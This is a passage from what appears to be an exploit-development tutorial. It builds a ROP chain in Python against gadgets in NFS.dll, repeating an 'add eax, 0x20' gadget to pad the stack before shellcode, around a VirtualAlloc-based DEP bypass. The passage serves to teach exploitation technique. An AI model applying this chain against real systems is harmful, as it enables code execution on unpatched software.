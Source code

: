 For us to continue to adding our shellcode, we need to align our shellcode with our return address. Instead of modifying the offsets we used, we will insert padding bytes before the shellcode. We use the following technique to obtain the required padding bytes.

```
#increase EAX 0x20 x 14 
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx

rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
```

 We return out of `VirtualAlloc` and obtain the address of the first instructions. We dump the contents of the stack and obtain the address where our ROP chain ends.  We then calculate the difference between the two.
